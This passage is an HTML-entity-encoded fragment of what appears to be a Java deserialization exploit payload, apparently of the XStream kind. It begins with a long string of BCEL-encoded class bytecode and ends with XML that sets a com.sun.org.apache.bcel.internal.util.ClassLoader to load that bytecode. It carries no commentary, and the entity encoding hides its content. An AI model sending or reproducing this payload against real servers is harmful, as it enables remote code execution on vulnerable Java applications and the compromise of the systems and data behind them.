#x24;&#x62;&#x36;&#x24;&#x64;&#x63;&#x57;&#x24;&#x38;&#x34;&#x61;&#x24;&#x37;&#x66;&#x24;&#x63;&#x36;&#x24;&#x61;&#x36;&#x24;&#x38;&#x64;&#x24;&#x65;&#x36;&#x24;&#x66;&#x34;&#x24;&#x62;&#x65;&#x24;&#x38;&#x31;&#x24;&#x61;&#x31;&#x74;&#x72;&#x68;&#x24;&#x63;&#x65;&#x24;&#x63;&#x65;&#x24;&#x66;&#x36;&#x24;&#x76;&#x24;&#x64;&#x30;&#x76;&#x24;&#x35;&#x62;&#x24;&#x64;&#x39;&#x24;&#x38;&#x61;&#x24;&#x63;&#x64;&#x24;&#x61;&#x38;&#x6f;&#x24;&#x65;&#x35;&#x24;&#x4c;&#x24;&#x61;&#x65;&#x35;&#x24;&#x78;&#x24;&#x37;&#x63;&#x24;&#x64;&#x61;&#x24;&#x39;&#x62;&#x24;&#x6a;&#x24;&#x63;&#x38;&#x24;&#x39;&#x61;&#x24;&#x65;&#x37;&#x24;&#x63;&#x66;&#x24;&#x78;&#x58;&#x24;&#x39;&#x64;&#x24;&#x33;&#x65;&#x6b;&#x24;&#x63;&#x65;&#x24;&#x39;&#x39;&#x24;&#x63;&#x39;&#x24;&#x61;&#x63;&#x24;&#x65;&#x39;&#x4c;&#x24;&#x74;&#x24;&#x76;&#x24;&#x77;&#x24;&#x55;&#x24;&#x61;&#x38;&#x24;&#x54;&#x24;&#x39;&#x64;&#x24;&#x57;&#x24;&#x66;&#x65;&#x24;&#x34;&#x30;&#x24;&#x64;&#x31;&#x24;&#x66;&#x33;&#x24;&#x38;&#x34;&#x24;&#x65;&#x33;&#x24;&#x6c;&#x24;&#x56;&#x24;&#x65;&#x37;&#x24;&#x38;&#x61;&#x24;&#x61;&#x32;&#x24;&#x65;&#x30;&#x24;&#x38;&#x66;&#x24;&#x75;&#x58;&#x24;&#x62;&#x37;&#x24;&#x4d;&#x24;&#x65;&#x38;&#x24;&#x38;&#x39;&#x33;&#x59;&#x61;&#x24;&#x66;&#x39;&#x24;&#x63;&#x39;&#x24;&#x52;&#x24;&#x65;&#x31;&#x24;&#x63;&#x66;&#x24;&#x62;&#x38;&#x53;&#x24;&#x64;&#x34;&#x58;&#x65;&#x55;&#x24;&#x63;&#x31;&#x65;&#x24;&#x38;&#x30;&#x24;&#x66;&#x66;&#x24;&#x61;&#x33;&#x24;&#x50;&#x4f;&#x24;&#x39;&#x65;&#x24;&#x72;&#x24;&#x39;&#x38;&#x24;&#x75;&#x24;&#x65;&#x35;&#x24;&#x38;&#x63;&#x24;&#x38;&#x32;&#x58;&#x24;&#x6a;&#x33;&#x24;&#x63;&#x33;&#x24;&#x62;&#x36;&#x24;&#x63;&#x38;&#x4a;&#x24;&#x78;&#x24;&#x39;&#x61;&#x24;&#x74;&#x24;&#x4b;&#x79;&#x24;&#x64;&#x37;&#x24;&#x76;&#x30;&#x24;&#x58;&#x24;&#x39;&#x64;&#x24;&#x6e;&#x24;&#x69;&#x24;&#x66;&#x33;&#x6c;&#x5f;&#x78;&#x74;&#x24;&#x61;&#x64;&#x24;&#x63;&#x63;&#x24;&#x78;&#x68;&#x24;&#x78;&#x24;&#x65;&#x62;&#x24;&#x64;&#x39;&#x6e;&#x24;&#x62;&#x32;&#x24;&#x79;&#x24;&#x65;&#x65;&#x24;&#x78;&#x63;&#x24;&#x66;&#x36;&#x24;&#x4c;&#x73;&#x24;&#x77;&#x24;&#x63;&#x30;&#x24;&#x38;&#x34;&#x24;&#x61;&#x63;&#x24;&#x64;&#x63;&#x54;&#x24;&#x62;&#x35;&#x24;&#x64;&#x62;&#x24;&#x38;&#x63;&#x24;&#x65;&#x66;&#x24;&#x64;&#x39;&#x24;&#x63;&#x65;&#x24;&#x62;&#x34;&#x74;&#x4b;&#x52;&#x24;&#x64;&#x61;&#x24;&#x63;&#x62;&#x24;&#x48;&#x45;&#x24;&#x64;&#x66;&#x24;&#x63;&#x65;&#x24;&#x73;&#x33;&#x24;&#x39;&#x36;&#x24;&#x65;&#x39;&#x38;&#x24;&#x38;&#x31;&#x24;&#x38;&#x35;&#x24;&#x63;&#x38;&#x24;&#x39;&#x63;&#x24;&#x65;&#x39;&#x24;&#x65;&#x64;&#x24;&#x64;&#x38;&#x24;&#x61;&#x31;&#x24;&#x61;&#x30;&#x63;&#x24;&#x39;&#x39;&#x24;&#x64;&#x61;&#x24;&#x64;&#x30;&#x24;&#x38;&#x32;&#x24;&#x72;&#x24;&#x66;&#x32;&#x24;&#x62;&#x65;&#x24;&#x65;&#x64;&#x24;&#x33;&#x61;&#x24;&#x33;&#x63;&#x6f;&#x24;&#x63;&#x39;&#x24;&#x66;&#x38;&#x24;&#x61;&#x36;&#x35;&#x24;&#x33;&#x62;&#x62;&#x24;&#x65;&#x36;&#x24;&#x44;&#x24;&#x38;&#x36;&#x24;&#x64;&#x39;&#x24;&#x59;&#x24;&#x77;&#x24;&#x37;&#x63;&#x24;&#x62;&#x36;&#x24;&#x38;&#x35;&#x24;&#x38;&#x61;&#x24;&#x6f;&#x24;&#x61;&#x62;&#x24;&#x63;&#x65;&#x52;&#x24;&#x62;&#x33;&#x24;&#x63;&#x65;&#x24;&#x79;&#x24;&#x6c;&#x24;&#x70;&#x24;&#x63;&#x39;&#x24;&#x62;&#x38;&#x45;&#x24;&#x63;&#x66;&#x24;&#x53;&#x24;&#x63;&#x33;&#x24;&#x62;&#x36;&#x24;&#x79;&#x43;&#x24;&#x39;&#x33;&#x64;&#x24;&#x33;&#x65;&#x24;&#x6e;&#x24;&#x4e;&#x24;&#x67;&#x24;&#x64;&#x38;&#x24;&#x38;&#x34;&#x24;&#x63;&#x64;&#x24;&#x77;&#x24;&#x65;&#x36;&#x24;&#x4d;&#x24;&#x63;&#x63;&#x63;&#x24;&#x63;&#x31;&#x24;&#x63;&#x30;&#x24;&#x63;&#x62;&#x24;&#x6d;&#x24;&#x64;&#x66;&#x24;&#x35;&#x62;&#x24;&#x79;&#x37;&#x24;&#x39;&#x37;&#x24;&#x62;&#x30;&#x24;&#x63;&#x63;&#x24;&#x61;&#x32;&#x35;&#x24;&#x65;&#x33;&#x24;&#x73;&#x24;&#x69;&#x24;&#x65;&#x31;&#x24;&#x63;&#x66;&#x24;&#x62;&#x62;&#x24;&#x64;&#x65;&#x6c;&#x24;&#x6f;&#x6b;&#x24;&#x58;&#x24;&#x37;&#x63;&#x24;&#x65;&#x31;&#x24;&#x71;&#x24;&#x63;&#x36;&#x24;&#x61;&#x63;&#x24;&#x37;&#x63;&#x66;&#x24;&#x61;&#x39;&#x24;&#x33;&#x63;&#x24;&#x77;&#x24;&#x35;&#x65;&#x31;&#x24;&#x66;&#x30;&#x24;&#x77;&#x24;&#x35;&#x65;&#x63;&#x24;&#x38;&#x35;&#x6a;&#x24;&#x61;&#x61;&#x24;&#x63;&#x31;&#x24;&#x38;&#x65;&#x58;&#x51;&#x34;&#x24;&#x44;&#x24;&#x61;&#x66;&#x24;&#x65;&#x33;&#x24;&#x43;&#x49;&#x5a;&#x49;&#x24;&#x33;&#x61;&#x24;&#x65;&#x33;&#x35;&#x24;&#x66;&#x30;&#x24;&#x47;&#x24;&#x64;&#x65;&#x34;&#x24;&#x66;&#x30;&#x24;&#x57;&#x24;&#x24;&#x24;&#x67;&#x78;&#x24;&#x68;&#x24;&#x58;&#x24;&#x61;&#x39;&#x24;&#x37;&#x62;&#x6a;&#x24;&#x39;&#x31;&#x24;&#x65;&#x36;&#x61;&#x24;&#x64;&#x33;&#x24;&#x6f;&#x24;&#x37;&#x62;&#x24;&#x47;&#x24;&#x64;&#x65;&#x24;&#x63;&#x31;&#x24;&#x62;&#x62;&#x4c;&#x24;&#x63;&#x39;&#x24;&#x63;&#x30;&#x24;&#x37;&#x62;&#x78;&#x24;&#x64;&#x66;&#x24;&#x63;&#x30;&#x24;&#x48;&#x24;&#x66;&#x38;&#x24;&#x39;&#x30;&#x39;&#x24;&#x79;&#x24;&#x64;&#x31;&#x24;&#x63;&#x66;&#x24;&#x64;&#x61;&#x56;&#x24;&#x54;&#x24;&#x63;&#x66;&#x32;&#x24;&#x38;&#x64;&#x24;&#x58;&#x24;&#x62;&#x33;&#x63;&#x24;&#x4d;&#x43;&#x37;&#x24;&#x66;&#x30;&#x24;&#x52;&#x24;&#x33;&#x65;&#x24;&#x24;&#x24;&#x38;&#x33;&#x24;&#x63;&#x62;&#x75;&#x24;&#x61;&#x38;&#x24;&#x38;&#x61;&#x24;&#x61;&#x30;&#x24;&#x63;&#x63;&#x24;&#x33;&#x66;&#x24;&#x65;&#x33;&#x24;&#x61;&#x66;&#x61;&#x24;&#x35;&#x65;&#x24;&#x63;&#x35;&#x24;&#x74;&#x24;&#x47;&#x24;&#x33;&#x65;&#x24;&#x63;&#x35;&#x67;&#x24;&#x47;&#x24;&#x33;&#x65;&#x24;&#x63;&#x37;&#x24;&#x58;&#x24;&#x77;&#x24;&#x62;&#x65;&#x34;&#x24;&#x66;&#x30;&#x24;&#x56;&#x24;&#x62;&#x65;&#x24;&#x39;&#x36;&#x64;&#x24;&#x37;&#x64;&#x24;&#x61;&#x33;&#x24;&#x61;&#x30;&#x24;&#x65;&#x31;&#x64;&#x24;&#x62;&#x66;&#x24;&#x38;&#x31;&#x6f;&#x24;&#x66;&#x31;&#x24;&#x39;&#x64;&#x24;&#x38;&#x31;&#x24;&#x65;&#x66;&#x71;&#x24;&#x63;&#x39;&#x24;&#x63;&#x30;&#x24;&#x50;&#x24;&#x66;&#x38;&#x51;&#x24;&#x42;&#x58;&#x24;&#x62;&#x66;&#x24;&#x33;&#x61;&#x24;&#x46;&#x32;&#x24;&#x66;&#x30;&#x24;&#x54;&#x36;&#x24;&#x64;&#x33;&#x24;&#x66;&#x64;&#x52;&#x24;&#x62;&#x62;&#x24;&#x78;&#x24;&#x65;&#x38;&#x24;&#x62;&#x61;&#x53;&#x24;&#x38;&#x66;&#x24;&#x77;&#x24;&#x65;&#x38;&#x24;&#x62;&#x63;&#x43;&#x24;&#x64;&#x66;&#x55;&#x24;&#x63;&#x35;&#x24;&#x33;&#x63;&#x36;&#x24;&#x65;&#x33;&#x31;&#x24;&#x52;&#x24;&#x57;&#x24;&#x62;&#x65;&#x24;&#x64;&#x32;&#x24;&#x63;&#x66;&#x24;&#x38;&#x62;&#x24;&#x66;&#x62;&#x35;&#x24;&#x66;&#x31;&#x24;&#x65;&#x65;&#x24;&#x66;&#x34;&#x4a;&#x24;&#x55;&#x24;&#x66;&#x62;&#x24;&#x61;&#x33;&#x43;&#x24;&#x39;&#x36;&#x24;&#x63;&#x36;&#x75;&#x24;&#x37;&#x63;&#x24;&#x62;&#x31;&#x24;&#x65;&#x30;&#x24;&#x48;&#x65;&#x48;&#x24;&#x62;&#x62;&#x65;&#x24;&#x57;&#x62;&#x55;&#x24;&#x66;&#x30;&#x65;&#x47;&#x52;&#x24;&#x61;&#x37;&#x24;&#x65;&#x65;&#x24;&#x42;&#x24;&#x64;&#x33;&#x24;&#x63;&#x38;&#x24;&#x66;&#x32;&#x24;&#x72;&#x24;&#x39;&#x30;&#x24;&#x75;&#x24;&#x64;&#x38;&#x24;&#x55;&#x24;&#x61;&#x66;&#x24;&#x65;&#x64;&#x24;&#x65;&#x33;&#x24;&#x67;&#x24;&#x38;&#x62;&#x24;&#x37;&#x64;&#x65;&#x24;&#x65;&#x36;&#x24;&#x58;&#x24;&#x66;&#x33;&#x24;&#x64;&#x62;&#x24;&#x35;&#x62;&#x47;&#x24;&#x65;&#x37;&#x44;&#x24;&#x38;&#x64;&#x4e;&#x24;&#x66;&#x37;&#x24;&#x64;&#x64;&#x24;&#x61;&#x36;&#x24;&#x62;&#x38;&#x24;&#x64;&#x31;&#x76;&#x24;&#x65;&#x36;&#x24;&#x64;&#x63;&#x59;&#x24;&#x62;&#x36;&#x24;&#x66;&#x30;&#x24;&#x61;&#x65;&#x78;&#x24;&#x65;&#x64;&#x24;&#x66;&#x38;&#x24;&#x39;&#x65;&#x24;&#x61;&#x38;&#x24;&#x56;&#x75;&#x24;&#x64;&#x37;&#x24;&#x68;&#x72;&#x4d;&#x72;&#x52;&#x4e;&#x24;&#x61;&#x33;&#x24;&#x62;&#x64;&#x24;&#x39;&#x36;&#x24;&#x47;&#x39;&#x54;&#x24;&#x45;&#x64;&#x24;&#x38;&#x61;&#x79;&#x24;&#x65;&#x31;&#x59;&#x65;&#x54;&#x24;&#x68;&#x24;&#x66;&#x37;&#x24;&#x38;&#x33;&#x24;&#x38;&#x32;&#x24;&#x68;&#x4f;&#x4c;&#x55;&#x24;&#x77;&#x24;&#x64;&#x32;&#x24;&#x37;&#x62;&#x24;&#x38;&#x66;&#x24;&#x66;&#x63;&#x57;&#x24;&#x35;&#x65;&#x24;&#x69;&#x24;&#x7a;&#x24;&#x46;&#x24;&#x65;&#x31;&#x24;&#x66;&#x37;&#x24;&#x35;&#x62;&#x24;&#x39;&#x36;&#x24;&#x75;&#x24;&#x55;&#x24;&#x65;&#x63;&#x24;&#x66;&#x32;&#x4d;&#x24;&#x59;&#x24;&#x39;&#x66;&#x24;&#x39;&#x30;&#x24;&#x64;&#x37;&#x67;&#x24;&#x38;&#x38;&#x24;&#x39;&#x36;&#x24;&#x56;&#x6c;&#x24;&#x61;&#x65;&#x24;&#x39;&#x33;&#x4c;&#x24;&#x64;&#x64;&#x24;&#x63;&#x38;&#x24;&#x70;&#x24;&#x66;&#x33;&#x24;&#x62;&#x32;&#x24;&#x63;&#x31;&#x59;&#x24;&#x61;&#x31;&#x7a;&#x24;&#x64;&#x65;&#x24;&#x63;&#x37;&#x24;&#x58;&#x24;&#x68;&#x39;&#x24;&#x39;&#x30;&#x24;&#x6b;&#x24;&#x7a;&#x24;&#x33;&#x61;&#x24;&#x62;&#x65;&#x24;&#x39;&#x64;&#x24;&#x61;&#x62;&#x24;&#x64;&#x63;&#x53;&#x4b;&#x24;&#x39;&#x62;&#x24;&#x38;&#x65;&#x24;&#x61;&#x61;&#x24;&#x37;&#x63;&#x24;&#x78;&#x62;&#x24;&#x67;&#x24;&#x4f;&#x24;&#x38;&#x62;&#x24;&#x46;&#x61;&#x71;&#x24;&#x66;&#x34;&#x24;&#x65;&#x66;&#x24;&#x39;&#x31;&#x24;&#x64;&#x35;&#x24;&#x52;&#x24;&#x63;&#x66;&#x24;&#x39;&#x35;&#x24;&#x76;&#x24;&#x66;&#x34;&#x55;&#x79;&#x24;&#x61;&#x61;&#x24;&#x49;&#x39;&#x24;&#x38;&#x36;&#x24;&#x66;&#x34;&#x74;&#x24;&#x63;&#x30;&#x24;&#x63;&#x39;&#x24;&#x58;&#x24;&#x37;&#x64;&#x6a;&#x24;&#x4b;&#x33;&#x24;&#x63;&#x37;&#x24;&#x38;&#x36;&#x24;&#x35;&#x65;&#x24;&#x66;&#x34;&#x24;&#x63;&#x36;&#x24;&#x64;&#x31;&#x24;&#x35;&#x63;&#x76;&#x24;&#x34;&#x30;&#x24;&#x66;&#x35;&#x24;&#x61;&#x65;&#x78;&#x24;&#x64;&#x64;&#x24;&#x44;&#x24;&#x39;&#x39;&#x24;&#x38;&#x33;&#x51;&#x24;&#x79;&#x24;&#x38;&#x38;&#x41;&#x24;&#x39;&#x31;&#x24;&#x62;&#x35;&#x73;&#x24;&#x65;&#x35;&#x51;&#x24;&#x62;&#x65;&#x4b;&#x48;&#x24;&#x78;&#x24;&#x61;&#x65;&#x4a;&#x75;&#x24;&#x63;&#x36;&#x24;&#x79;&#x24;&#x38;&#x63;&#x24;&#x62;&#x32;&#x24;&#x63;&#x66;&#x24;&#x38;&#x33;&#x24;&#x39;&#x66;&#x24;&#x61;&#x36;&#x24;&#x4a;&#x24;&#x65;&#x36;&#x24;&#x65;&#x34;&#x24;&#x45;&#x24;&#x39;&#x62;&#x24;&#x65;&#x61;&#x24;&#x63;&#x31;&#x58;&#x24;&#x62;&#x61;&#x72;&#x24;&#x35;&#x62;&#x24;&#x66;&#x33;&#x24;&#x37;&#x63;&#x24;&#x66;&#x31;&#x24;&#x38;&#x33;&#x24;&#x64;&#x62;&#x73;&#x24;&#x63;&#x63;&#x33;&#x24;&#x7a;&#x24;&#x38;&#x31;&#x24;&#x38;&#x64;&#x78;&#x24;&#x38;&#x34;&#x24;&#x33;&#x66;&#x24;&#x61;&#x33;&#x24;&#x66;&#x32;&#x24;&#x61;&#x66;&#x24;&#x38;&#x31;&#x24;&#x64;&#x33;&#x24;&#x63;&#x63;&#x6b;&#x24;&#x39;&#x31;&#x24;&#x65;&#x62;&#x24;&#x57;&#x24;&#x65;&#x65;&#x24;&#x39;&#x32;&#x24;&#x37;&#x63;&#x72;&#x24;&#x63;&#x30;&#x24;&#x52;&#x24;&#x65;&#x39;&#x24;&#x62;&#x39;&#x24;&#x47;&#x24;&#x65;&#x35;&#x6a;&#x70;&#x24;&#x69;&#x24;&#x65;&#x37;&#x24;&#x64;&#x61;&#x24;&#x59;&#x24;&#x49;&#x24;&#x39;&#x62;&#x24;&#x64;&#x30;&#x24;&#x63;&#x64;&#x24;&#x64;&#x35;&#x24;&#x75;&#x24;&#x44;&#x24;&#x64;&#x30;&#x24;&#x38;&#x33;&#x24;&#x61;&#x64;&#x24;&#x37;&#x63;&#x6a;&#x24;&#x64;&#x38;&#x24;&#x62;&#x36;&#x24;&#x61;&#x38;&#x24;&#x61;&#x63;&#x24;&#x64;&#x63;&#x24;&#x6f;&#x4e;&#x24;&#x61;&#x37;&#x24;&#x65;&#x63;&#x24;&#x39;&#x66;&#x24;&#x65;&#x62;&#x68;&#x24;&#x75;&#x24;&#x6e;&#x24;&#x55;&#x24;&#x4e;&#x24;&#x39;&#x37;&#x24;&#x51;&#x39;&#x24;&#x64;&#x34;&#x24;&#x54;&#x6d;&#x24;&#x4d;&#x24;&#x64;&#x64;&#x24;&#x38;&#x34;&#x5a;&#x24;&#x38;&#x32;&#x24;&#x39;&#x36;&#x24;&#x64;&#x65;&#x24;&#x61;&#x61;&#x24;&#x66;&#x30;&#x24;&#x61;&#x64;&#x24;&#x61;&#x39;&#x24;&#x45;&#x24;&#x37;&#x64;&#x64;&#x24;&#x35;&#x62;&#x24;&#x4a;&#x24;&#x63;&#x64;&#x24;&#x72;&#x24;&#x59;&#x24;&#x64;&#x31;&#x24;&#x39;&#x36;&#x24;&#x53;&#x56;&#x24;&#x38;&#x64;&#x24;&#x66;&#x36;&#x24;&#x53;&#x24;&#x64;&#x37;&#x24;&#x64;&#x61;&#x4b;&#x51;&#x24;&#x35;&#x62;&#x24;&#x77;&#x24;&#x69;&#x24;&#x65;&#x33;&#x24;&#x37;&#x62;&#x73;&#x74;&#x75;&#x45;&#x24;&#x70;&#x24;&#x56;&#x24;&#x38;&#x39;&#x45;&#x62;&#x24;&#x65;&#x31;&#x24;&#x38;&#x61;&#x24;&#x64;&#x32;&#x5f;&#x24;&#x38;&#x38;&#x24;&#x61;&#x36;&#x24;&#x67;&#x63;&#x24;&#x38;&#x64;&#x24;&#x64;&#x31;&#x24;&#x66;&#x36;&#x24;&#x53;&#x24;&#x64;&#x36;&#x48;&#x24;&#x66;&#x64;&#x68;&#x47;&#x24;&#x39;&#x38;&#x24;&#x61;&#x38;&#x24;&#x65;&#x33;&#x24;&#x61;&#x31;&#x24;&#x65;&#x38;&#x24;&#x64;&#x61;&#x24;&#x38;&#x63;&#x24;&#x38;&#x34;&#x24;&#x61;&#x61;&#x31;&#x75;&#x24;&#x68;&#x24;&#x46;&#x4d;&#x24;&#x55;&#x74;&#x66;&#x24;&#x43;&#x24;&#x66;&#x38;&#x24;&#x64;&#x61;&#x24;&#x39;&#x34;&#x24;&#x66;&#x36;&#x24;&#x33;&#x62;&#x24;&#x62;&#x61;&#x24;&#x38;&#x65;&#x5f;&#x47;&#x24;&#x79;&#x24;&#x61;&#x36;&#x24;&#x39;&#x35;&#x24;&#x62;&#x30;&#x24;&#x61;&#x65;&#x24;&#x38;&#x34;&#x24;&#x66;&#x35;&#x24;&#x64;&#x37;&#x24;&#x62;&#x30;&#x24;&#x6e;&#x7a;&#x5f;&#x24;&#x4a;&#x24;&#x66;&#x37;&#x24;&#x61;&#x37;&#x24;&#x39;&#x61;&#x62;&#x24;&#x38;&#x64;&#x31;&#x24;&#x64;&#x61;&#x24;&#x37;&#x63;&#x24;&#x65;&#x30;&#x24;&#x53;&#x24;&#x39;&#x61;&#x24;&#x65;&#x35;&#x24;&#x66;&#x33;&#x24;&#x63;&#x31;&#x24;&#x78;&#x24;&#x38;&#x38;&#x44;&#x37;&#x24;&#x64;&#x32;&#x24;&#x65;&#x65;&#x24;&#x56;&#x68;&#x24;&#x38;&#x37;&#x7a;&#x4a;&#x78;&#x24;&#x66;&#x38;&#x6a;&#x24;&#x39;&#x30;&#x24;&#x65;&#x33;&#x24;&#x4e;&#x24;&#x66;&#x63;&#x24;&#x63;&#x31;&#x24;&#x5f;&#x24;&#x38;&#x31;&#x50;&#x24;&#x63;&#x30;&#x24;&#x63;&#x30;&#x30;&#x56;&#x24;&#x48;&#x24;&#x62;&#x39;&#x24;&#x68;&#x68;&#x41;&#x24;&#x74;&#x56;&#x24;&#x39;&#x31;&#x24;&#x63;&#x30;&#x56;&#x24;&#x71;&#x24;&#x64;&#x30;&#x24;&#x38;&#x36;&#x24;&#x39;&#x64;&#x24;&#x39;&#x34;&#x24;&#x61;&#x37;&#x24;&#x66;&#x38;&#x24;&#x62;&#x31;&#x71;&#x24;&#x51;&#x24;&#x65;&#x64;&#x24;&#x39;&#x38;&#x24;&#x63;&#x30;&#x24;&#x67;&#x24;&#x39;&#x38;&#x24;&#x65;&#x38;&#x24;&#x34;&#x30;&#x24;&#x52;&#x6b;&#x79;&#x6d;&#x77;&#x24;&#x65;&#x32;&#x32;&#x24;&#x33;&#x66;&#x24;&#x76;&#x6e;&#x24;&#x36;&#x30;&#x24;&#x33;&#x64;&#x24;&#x61;&#x64;&#x24;&#x63;&#x34;&#x70;&#x24;&#x54;&#x24;&#x65;&#x62;&#x24;&#x66;&#x30;&#x37;&#x36;&#x24;&#x45;&#x24;&#x4d;&#x24;&#x65;&#x36;&#x24;&#x64;&#x31;&#x4c;&#x24;&#x33;&#x62;&#x24;&#x62;&#x66;&#x24;&#x61;&#x30;&#x24;&#x39;&#x37;&#x24;&#x57;&#x24;&#x51;&#x24;&#x65;&#x30;&#x24;&#x39;&#x32;&#x24;&#x64;&#x38;&#x4e;&#x24;&#x38;&#x66;&#x24;&#x68;&#x79;&#x24;&#x63;&#x37;&#x24;&#x65;&#x65;&#x24;&#x63;&#x30;&#x24;&#x61;&#x33;&#x24;&#x65;&#x34;&#x24;&#x33;&#x63;&#x24;&#x63;&#x31;&#x24;&#x39;&#x62;&#x24;&#x37;&#x63;&#x24;&#x74;&#x24;&#x33;&#x66;&#x24;&#x38;&#x62;&#x42;&#x24;&#x62;&#x34;&#x24;&#x37;&#x64;&#x24;&#x42;&#x24;&#x38;&#x66;&#x53;&#x24;&#x57;&#x24;&#x61;&#x36;&#x24;&#x48;&#x24;&#x58;&#x4f;&#x24;&#x51;&#x24;&#x58;&#x24;&#x61;&#x31;&#x24;&#x39;&#x66;&#x53;&#x78;&#x24;&#x53;&#x4f;&#x24;&#x39;&#x31;&#x24;&#x65;&#x64;&#x24;&#x6f;&#x24;&#x47;&#x24;&#x62;&#x31;&#x24;&#x38;&#x62;&#x32;&#x24;&#x39;&#x35;&#x24;&#x66;&#x65;&#x24;&#x62;&#x36;&#x24;&#x54;&#x24;&#x64;&#x62;&#x24;&#x63;&#x37;&#x7a;&#x24;&#x35;&#x63;&#x24;&#x61;&#x36;&#x24;&#x63;&#x35;&#x24;&#x64;&#x64;&#x78;&#x24;&#x39;&#x61;&#x24;&#x64;&#x35;&#x24;&#x62;&#x61;&#x49;&#x24;&#x61;&#x64;&#x24;&#x33;&#x64;&#x78;&#x24;&#x38;&#x36;&#x24;&#x33;&#x65;&#x24;&#x66;&#x36;&#x24;&#x66;&#x32;&#x24;&#x66;&#x66;&#x34;&#x24;&#x63;&#x32;&#x24;&#x62;&#x37;&#x24;&#x66;&#x31;&#x24;&#x78;&#x74;&#x24;&#x56;&#x24;&#x66;&#x64;&#x24;&#x77;&#x24;&#x66;&#x36;&#x24;&#x61;&#x39;&#x24;&#x59;&#x50;&#x31;&#x24;&#x59;&#x24;&#x61;&#x63;&#x24;&#x37;&#x63;&#x24;&#x6c;&#x24;&#x4b;&#x24;&#x64;&#x36;&#x61;&#x24;&#x56;&#x24;&#x63;&#x66;&#x42;&#x24;&#x65;&#x31;&#x24;&#x65;&#x65;&#x36;&#x24;&#x38;&#x33;&#x24;&#x62;&#x39;&#x24;&#x58;&#x24;&#x61;&#x65;&#x24;&#x6e;&#x24;&#x64;&#x38;&#x24;&#x4e;&#x24;&#x64;&#x66;&#x66;&#x24;&#x33;&#x63;&#x24;&#x39;&#x30;&#x4a;&#x24;&#x66;&#x62;&#x24;&#x63;&#x33;&#x54;&#x24;&#x33;&#x61;&#x24;&#x51;&#x74;&#x24;&#x63;&#x63;&#x24;&#x63;&#x31;&#x24;&#x66;&#x66;&#x24;&#x41;&#x24;&#x54;&#x24;&#x62;&#x35;&#x6c;&#x24;&#x37;&#x65;&#x24;&#x64;&#x37;&#x24;&#x4a;&#x24;&#x41;&#x24;&#x41;&#x0a;&#x3c;&#x2f;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x61;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x6f;&#x75;&#x74;&#x65;&#x72;&#x2d;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x6e;&#x61;&#x6d;&#x65;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x72;&#x6f;&#x63;&#x65;&#x73;&#x73;&#x6f;&#x72;&#x43;&#x4c;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x6f;&#x72;&#x67;&#x2e;&#x61;&#x70;&#x61;&#x63;&#x68;&#x65;&#x2e;&#x62;&#x63;&#x65;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x61;&#x72;&#x65;&#x6e;&#x74;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x73;&#x75;&#x6e;&#x2e;&#x6d;&#x69;&#x73;&#x63;&#x2e;&#x4c;&#x61;&#x75;&#x6e;&#x63;&#x68;&#x65;&#x72;&#x24;&#x45;&#x78;&#x74;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x70;&#x61;&#x72;&#x65;&#x6e;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x61;&#x63;&#x6b;&#x61;&#x67;&#x65;&#x32;&#x63;&#x65;&#x72;&#x74;&#x73;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x68;&#x61;&#x73;&#x68;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x65;&#x73;&#x20;&#x64;&#x65;&#x66;&#x69;&#x6e;&#x65;&#x64;&#x2d;&#x69;&#x6e;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x6c;&#x61;&#x6e;&#x67;&#x2e;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x44;&#x6f;&#x6d;&#x61;&